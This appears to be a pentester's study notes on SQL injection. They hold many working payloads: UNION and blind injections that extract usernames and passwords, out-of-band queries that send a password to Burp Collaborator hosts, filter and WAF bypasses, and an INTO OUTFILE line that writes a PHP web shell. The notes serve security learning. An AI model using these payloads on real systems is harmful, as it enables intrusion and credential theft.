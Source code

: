```yaml
---
layout: blank
pagetitle: SQL Injection
---
```


Portswigger Cheat Sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

PentestMonkey Cheat Sheet: https://pentestmonkey.net/category/cheat-sheet/sql-injection

**What is SQL injection**
- Inserting into SQL queries (commonly SELECT, but sometimes others like UPDATE or INSERT)
- `https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1`
  - Often easiest to figure out hte query by trying to fill out the rest of the query ourselves (so something like `Gifts'--` to get the same data)

**Places to look for SQL injection**
- Can be anywhere, really
- Look for places that would commonly interact with a database
  - Authentication, queries, tracking cookies, etc.
- With BlindSQLi, it can sometimes be pretty hard to tell (missing content can be indicative of simply incorrect values, not SQLi), so I suppose just pass every request through sqlmap
  - Use `*` to indicate where to inject
  - `sqlmap -u {endpoint} --cookie "{vulnerable_cookie}=*" --dbs`

**UNION attacks**
- `UNION` allows executing an additional `SELECT` query and appending results to the original
  - `SELECT a, b FROM table1 UNION SELECT c, d FROM table2` will return values from a and b in table1 and values c and d from table2
- UNION queries require:
  - Individual queries returning same number of columns
  - Data types in column must be compatible
- When commenting, make sure to try `--`, `#`, `-- //`, `# //`, etc.
- Determining column requirements
  - Can use `' ORDER BY 1--`, `' ORDER BY 2--`, and so on to see how many columns exist
  - Can also use `' UNION SELECT NULL, NULL, NULL, {etc}--` for the same purpose - `NULL` is convertible to every common data type
- Finding useful data types
  - String data is often useful, so finding it is important
  - `' UNION SELECT 'a', NULL, NULL, {etc}--` to find which columns allow strings
  - Can use these columns to retrieve interesting data, like usernames/passwords
- If we want to select multiple instances or 2nd/3rd instances from a database, use `LIMIT` to limit the number of results and `OFFSET` to offset which to select from the database
  - `' UNION SELECT username,password FROM users LIMIT 999 OFFSET 0--` would give enough space (999) and set the offset at 0, appending the entire table onto the result
  - Alternatively, we can concatenate the values together into a single column
    - Would look something like this for MySQL: `' UNION SELECT username || password FROM users--`

**Examining the Database**
- We want to find the type, version, table, and columns of the database
- Type/Version: 
  - Microsoft/MySQL: `SELECT @@version`
  - Oracle: `SELECT * FROM v$version`
    - - Every `SELECT` query in Oracle requires the `FROM` keyword - `DUAL` can be used as an always-valid table
      - `' UNION SELECT NULL FROM DUAL--`
    - Allows `--` or `#` for comments
  - PostgreSQL: `SELECT version()`
- Database contents:
  - `information_schema.tables` contains table information
    - Columns are usually like `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  TABLE_TYPE`
  - To see columns in tables, a query like `SELECT * FROM information_schema.columns WHERE table_name = 'Users'` does the trick
    - Tables have columns like the following: `TABLE_CATALOG  TABLE_SCHEMA  TABLE_NAME  COLUMN_NAME  DATA_TYPE`

**Verbose Error Message SQL Injection**
- `CAST` is a useful tool for dumping column data in error messages
  - `CAST((SELECT example_column FROM example_table) AS int)` will yield something like `Invalid syntax: "{column_data} is not an integer"`
  - Example: `' AND 1=CAST((SELECT username FROM users LIMIT 1) as int)--` (check if 1 = integer of string data)

**Blind SQL Injection**
- Blind SQLi is when the neither database query NOR verbose error messages are present in the HTTP response 
- Can identify blind injection by getting normal results to appear with A SQL query `' AND '1'='1`
  - Not commented out since we want to confirm the query was injected and returned the same results 
  - Can sub `' AND '1'='2` to procure an error
- Error-based blind SQLi:
  - Do error-based character comparisons to figure out characters
  - Figuring out tables:
    - `' AND (SELECT 'a' FROM information_schema.columns WHERE table_name='users' LIMIT 1)='a` to see if there is a user table (a = a if users exists)
  - Figuring out table columns:
    - `' AND (SELECT 'a' FROM information_schema.columns WHERE table_name='users' AND column_name='username' LIMIT 1)='a` to see if there is a "username" column
  - Figuring out column content:
    - `' AND (SELECT 'a' FROM users WHERE username='administrator')='a` to see if there is an "administrator" user 
  - Figuring out conditional table content:
    - `' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a` to see if the first letter of the administrator's password is "a"
      - Change `(password,1,1)` to `(password,2,1)` to check the second character
      - Alternate: `' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
        - Might not work if strings can't be compared, but can allow a binary search
      - Can be `SUBSTR` with some databases - refer to cheat sheet
- Time delay SQLi
  - Sometimes, the app will handle error messages gracefully, meaning no difference in application response
  - Check for true/false boolean (depending on the database; cheat sheet has copy-paste):
    - `'; IF (1=2) WAITFOR DELAY '0:0:10'--`
    - `'; IF (1=1) WAITFOR DELAY '0:0:10'--`
  - Based on the condition, retrieve data one character at a time (again depending on database):
    - `'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--`

**Error-based SQL Injection**
- Similar to response-based SQLi, where we can infer the result of the query based on an application error
- We'll often need to check whether or not we're injecting into a true or false boolean condition:
  - These are heavily database-dependent; be sure to use cheat sheet
  - `' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a` will evaluate to true
  - `' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` will evaluate to false
- Based on the condition needed, we can use the following to exfiltrate characters
  - `' AND (SELECT CASE WHEN (username = 'administrator' AND SUBSTRING(password, 1, 1) = 'a') THEN 1/0 ELSE 'a' END FROM users)='a`
    - Also heavily dependent on database; for Oracle it would be something like `' AND (SELECT CASE WHEN (SUBSTR((SELECT password FROM users WHERE username='administrator'),1,1)='0') THEN 'a' ELSE TO_CHAR(1/0) END FROM dual)='a`
    - Can substitute with `> 'm'` if accepted by the database
  - Intruder can do this quite well with a cluster-bomb attack (iterate all payload combinations for all positions)

**OAST Techniques**
- Applications will sometimes handle the SQL query asynchronously
- Thus, we need to use some external service that can accept connections, like DNS, to confirm query execution 
  - Burp collaborator works well for this
    - Create a payload (by copying it to clipboard), then poll after sending the request
- Payload would look something like a lookup
  - `'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`
- Payloads from cheat sheet require decent modification. Remember to try with `UNION`, `;`, etc.
  - Encode ` ` as `+`, `?` marks as `%3f`, `=` as `%3d`, `%` as `%25`, `:` as `%3a`, and `;` as `%3b`
- After confirming SQL injection, exfiltration would look something like:
  - `'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--`
  - An encoded would look something like:
    - `'+UNION+SELECT+EXTRACTVALUE(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//'||(SELECT+password+FROM+users+WHERE+username='administrator')||'.wee8xnrdltcmbp86tyzupzx5lwrnff34.oastify.com/">+%25remote%3b]>'),'/l')+FROM+dual--`
  - Again, cheat sheet has examples

**Bypassing Defenses**
- If single quotes are totally blacklisted, a `\` as the first parameter can actually unlock an apostrophe to use as part of the second payload
- Backslashes can also be used for bypassing single quotes being replaced with double quotes
- For WAFs, if we can encode the data (HTML, XML), doing so can bypass basic WAFs

**Other Techniques**
- Can trail SQL injection queries with `//` to provide visibility on the payload and protect against whitespace truncation
- Can use `IN` to inject arbitrary second command:
  - `' OR 1=1 IN (SELECT version()) -- //`
  - `' OR 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //`
- Matching on numbers may not use single/double quotes at all
	- `SELECT * FROM rooms WHERE room_id = 1;` uses no quotes
- MySQL RCE via SQLi
	- Use the `INTO OUTFILE` to create a PHP/JSP/ASPX/etc shell
		- Example: `' UNION SELECT "<?php system('whoami');?>", null, null INTO OUTFILE "/var/www/html/tmp/shell.php" -- // `
			- `tmp` is important, because we might not have perms for `/html`
		- Then, either LFI the new file or straight up access it if possible
	- Can also extract users/passwords and crack hashes
	- Could search up phpmyadmin version to get RCE (LFI + session cookie can lead to RCE)
